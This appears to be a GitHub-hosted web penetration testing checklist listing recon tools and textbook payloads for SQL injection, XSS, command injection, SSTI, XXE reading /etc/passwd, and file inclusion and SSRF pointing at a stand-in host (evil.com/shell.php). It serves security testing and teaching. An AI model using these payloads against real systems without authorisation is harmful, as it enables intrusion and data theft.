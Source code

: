 
# 🛡️ Web Penetration Testing Checklist

## Pre-Testing Checklist 📝

1. **Set up VPN and Environment:**
    - Ensure your VPN is connected.
    - Confirm Burp Suite is properly configured to capture traffic.
2. **Initial Reconnaissance:**
    - Use tools like `nmap` to identify open ports and services.
    - Use `ffuf` or `dirb` to discover hidden directories and files.
    - Enumerate subdomains with tools like `sublist3r` or `amass`.

---

## Injections and Common Vulnerabilities 🕵️

### SQL Injection (SQLi) 🐍

- **Identify Inputs:**
    - Look for form fields, URL parameters, headers, cookies.
- **Test with Simple Payloads:**
    - Payload: `' OR 1=1--`
- **Tools and Commands:**
    - `sqlmap -u "http://target.com/page?id=1" --batch --dbs`
- **Types of SQLi:**
    - **Error-Based**, **Blind SQLi**, **Second-Order SQLi**.

### Cross-Site Scripting (XSS) 🚀

- **Identify Inputs:** Input fields, URL parameters, headers.
- **Payloads:**
    - Stored: `<script>alert('XSS')</script>`
    - Reflected: `"><script>alert('XSS')</script>`
    - DOM-Based: `#"><img src=/ onerror=alert(2)>`

### Command Injection 💻

- **Identify Inputs:** Fields executing system commands (IP fields, file paths).
- **Payloads:** `; ls -la`, `; sleep 10`.

### Server-Side Template Injection (SSTI) 🖥️

- **Identify Inputs:** Fields handling template syntax.
- **Payloads:** `{{7*7}}`, `${7*7}`.

### XML External Entity (XXE) Injection 📄

- **Identify Inputs:** Fields accepting XML input.
- **Payloads:** `<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>`.

### File Inclusion (LFI/RFI) 📂

- **Identify Inputs:** Parameters handling file paths.
- **Payloads:** `../../../../etc/passwd`, `http://evil.com/shell.php`.

### Server-Side Request Forgery (SSRF) 🌐

- **Identify Inputs:** Parameters handling URLs.
- **Payloads:** `http://localhost:8080`, `http://evil.com`.

---

## Access Controls 🔐

### IDOR (Insecure Direct Object References) 🔍

- **Identify Inputs:** Parameters referencing objects (IDs, filenames).
- **Payloads:** Modify IDs to access unauthorized data.

### BOLA (Broken Object Level Authorization) 🛠️

- **Identify Inputs:** API endpoints managing objects.
- **Payloads:** Modify object IDs in API requests.

### BFLA (Broken Function Level Authorization) 🔧

- **Identify Inputs:** Endpoints managing different functions.
- **Payloads:** Access admin functions as a regular user.

---

## API Security Testing 🛡️

- **Identify Inputs:** Endpoints, methods, parameters.
- **Payloads:** Test for SQLi, XSS, IDOR, BOLA vulnerabilities.

---

## Miscellaneous Attacks 🎯

### Brute-Force Attacks 🚪

- **Identify Inputs:** Login forms, authentication pages.
- **Tools:** `hydra`, Burp Suite Intruder.

### Attacking MFA 🔑

- **Identify Inputs:** MFA verification steps.
- **Payloads:** Attempt to bypass or reuse tokens.

### Insecure File Upload 📁

- **Identify Inputs:** File upload forms.
- **Payloads:** Upload web shells or malicious files.

### Bypassing Input Validation 🔍

- **Identify Inputs:** Any user input fields.
- **Techniques:** HTML Encoding, URL Encoding.

---

## Final Steps ✅

- **Document Findings:**
    - Detailed notes, screenshots, PoCs.
- **Generate Report:**
    - Structured summary with recommendations.

---

This comprehensive checklist will guide you through web application penetration testing systematically, ensuring you identify and assess a wide range of potential vulnerabilities.
